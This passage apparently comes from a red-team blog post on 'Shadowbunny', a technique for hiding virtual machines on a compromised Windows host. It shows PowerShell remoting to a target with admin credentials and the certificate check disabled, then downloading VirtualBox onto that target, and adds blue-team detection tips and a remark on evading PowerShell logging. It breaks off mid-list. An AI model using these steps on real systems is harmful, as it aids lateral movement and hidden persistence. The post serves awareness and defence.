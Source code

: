 The following screenshot shows the three steps with a more detailed description below:
![Shadowbunny Pivot Admin](/blog/images/2020/shadowbunny-step1.png)
 
1.	Using `New-PsSessionOption` object to disable certificate check. The reason for this is that in my lab the target uses a self-signed certificate for WinRM, which the attacker’s machine doesn’t trust. In an enterprise setting that is usually not needed (if attack machine is domain joined)
2.	Using the `Get-Credential` command to store the admin credentials for the target host
3.	Execution of the `Enter-PSSession` command to establish a remote management session over TLS to the target computer called *“dangerzone”*. 

The result is a PowerShell command prompt on the remote host. Now we can explore creating our first Shadowbunny on the target.

## Checking if virtualization products are present already

Some virtualization products don't go well together, so if one is present its best to piggy back on the existing technology installed. For now, we assume no other product is present on the target.

## Downloading virtualization software

This post is focused on VirtualBox, but we will also cover some of the basic commands for Hyper-V along the way (Hyper-V is already present on Windows machines, so no need to download).

The current installer (as of writing this) for Windows is located at https://download.virtualbox.org/virtualbox/6.1.8/VirtualBox-6.1.8-137981-Win.exe. 

To quickly download the installer onto the target run:

```
Invoke-WebRequest "https://download.virtualbox.org/virtualbox/6.1.8/VirtualBox-6.1.8-137981-Win.exe" -OutFile $env:TEMP\VirtualBox-6.1.8-137981-Win.exe
```

**Note:** The version used above is likely outdated when you read this. Also the "Guest Additions" have to match the VirtualBox version.

The following screenshot shows pivoting on the target host “dangerzone” and download VirtualBox:
![Shadowbunny Download Virtual Box](/blog/images/2020/shadowbunny-step3.png)
 
The command to download VirtualBox takes a bit depending on network speed.

### **Important Blue Team Tip**

In many environments that I have seen, and blue teams that I have spoken to, logging is fairly good when it comes to PowerShell command execution. 

Especially scripts that use `Invoke-WebRequest` or `WebClient` to download tools from the Internet get a lot of attention and are frequently manually investigated by an analyst.

However, there are many tactics to continue using PowerShell and evade detections. 

>PowerShell usage as adversarial technique will not go away, the same way we still see malware use VBScript.

Just to give a few examples on top of my head that threat hunters should be aware of:
